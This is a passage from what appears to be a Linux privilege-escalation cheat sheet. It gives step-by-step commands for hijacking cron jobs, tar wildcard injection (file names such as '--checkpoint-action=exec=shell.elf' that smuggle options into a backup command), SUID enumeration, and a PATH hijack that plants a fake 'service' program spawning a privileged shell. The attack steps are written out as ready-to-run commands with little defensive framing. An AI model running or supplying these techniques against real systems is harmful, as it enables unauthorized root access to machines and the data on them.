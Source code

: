 Then, check the permission on `/home/user`, if have write permssion, replace the cron job execute script.

### Wildcards injection

Backup scripts often use `tar` to create compress files. If using tar with wildcard (\*), wildcard injection technique can be used to exploit.

Create 2 files with names: `--checkpoint=1` and `--checkpoint-action=exec=shell.elf`

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

Wait for cron job to compress files. The tar command will interpret files `--checkpoint=1` and `--checkpoint-action=exec=shell.elf` as 2 options instead of file names.

See more exploits at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

> **_NOTE:_** Can use this exploit with SUID

## SUID/SGID

The SUID/SGID allows files to be executed with the permission level of the file owner or the group owner.

Enumerate for SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

### SUID Known Exploits

See how to exploit on [GTFOBins](https://gtfobins.github.io) and [ExploitDB](https://www.exploit-db.com/)

### SUID Environment variables

Use `strings` to look for relative path program. Example: call `service` instead of `/usr/bin/service`

```bash
strings /usr/bin/suidprogram
```

Then, create a fake program

```bash
echo "bash -p" > /tmp/service
```

Add /tmp to `$PATH`

```bash
export PATH=/tmp:$PATH
```
